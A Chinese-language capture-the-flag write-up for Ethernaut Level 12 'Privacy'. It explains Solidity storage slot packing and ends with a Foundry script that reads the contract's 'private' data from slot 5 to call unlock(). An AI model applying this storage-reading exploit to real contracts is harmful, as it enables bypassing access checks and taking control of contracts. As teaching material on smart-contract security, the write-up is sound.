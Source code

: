# Level 12 - Privacy

## 題目
[Privacy](https://ethernaut.openzeppelin.com/level/0x131c3249e115491E83De375171767Af07906eA36)

### 通關條件
這個合約的開發者非常小心的保護了 storage 敏感資料的區域.
把這個合約解鎖就可以通關喔

### 提示
- 理解 storage 是如何運作的
- 理解 parameter parsing 的原理
- 理解 casting 的原理
### 合約內容
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Privacy {
    bool public locked = true;
    uint256 public ID = block.timestamp;
    uint8 private flattening = 10;
    uint8 private denomination = 255;
    uint16 private awkwardness = uint16(block.timestamp);
    bytes32[3] private data;

    constructor(bytes32[3] memory _data) {
        data = _data;
    }

    function unlock(bytes16 _key) public {
        require(_key == bytes16(data[2]));
        locked = false;
    }

    /*
    A bunch of super advanced solidity algorithms...

      ,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`
      .,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,
      *.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^         ,---/V\
      `*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.    ~|__(o.o)
      ^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'^`*.,*'  UU  UU
    */
}
```
## 解題
**Storage** 在 [Level 8 - Vault](https://hackmd.io/@D13/ethernaut8) 就有提到，合約中的 state variable 皆會儲存於此

**Parameter parsing** 是指變數在被呼叫時的過程，會有兩種不同的稱呼：
  - Formal parameter（參數, Parameter）：宣告 function 時，設計用於接受值的變數
  - Actual parameter（引數, Argument）：呼叫 function 時，要輸入至參數的變數

parameter parsing 的說明也可以參考以下兩篇，有範例程式碼幫助了解：
- [The four parsing techniques in programming](https://medium.com/@joshaniekwe/do-you-know-that-there-are-four-parsing-technique-and-not-the-commonly-known-two-in-programming-64efed136b13)
- [引數 (Argument) vs. 參數 (Parameter)](https://notfalse.net/6/arg-vs-param#google_vignette)

**casting** 是指當不同型態的變數要一起運算時，「**若型態轉換不會影響原數值的話，就會自動改變型態並運算**」，舉裡來說：
```
uint8 valor1 = 140;
uint16 valor2 = 480;
uint16 valor3 = valor1 + valor2; // 620
```
詳細可以參考 [Learn Solidity lesson 22. Type casting.](https://medium.com/coinmonks/learn-solidity-lesson-22-type-casting-656d164b9991)


---

這題解鎖的方法要呼叫 16 行的 `unlock(bytes16 _key)`，它會檢查你輸入的 `_key ` 是否等於 `bytes16(data[2])`
```solidity
function unlock(bytes16 _key) public {
    require(_key == bytes16(data[2]));
    locked = false;
}
```
所以我們要讀取 `data[2]` 的數值，雖然是 `private` 屬性，但我們還是可以在 storage slot 中找到，只要透過變數的長度去推算即可，這題宣告的變數有：
```solidity
bool public locked = true;
uint256 public ID = block.timestamp;
uint8 private flattening = 10;
uint8 private denomination = 255;
uint16 private awkwardness = uint16(block.timestamp);
bytes32[3] private data;
```
將變數逐個填入 stroage slot（1 個 slot 可以存放 32 bytes）：


| slot idx	 | (type) Variable |
| -------- | -------- | 
| 0     | (bool) locked | 
| 1     | (uint256) ID | 
| 2     | (uint8) flattening, (uint8) denomination, (uint16) awkwardness     | 
| 3     | (bytes32) data[0]| 
| 4     | (bytes32) data[1]| 
| 5     | (bytes32) data[2]| 

所以 `_key` 在 slot 5 可以找到，還要記得把它轉換成 `bytes16`，實作如下：
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/12_Privacy.sol";

contract ExploitScript is Script {
    Privacy level12 = Privacy(your_challenge_address);

    function run() external {
        vm.startBroadcast();

        level12.unlock(bytes16(vm.load(address(level12), bytes32(uint256(5)))));

        vm.stopBroadcast();
    }
}
```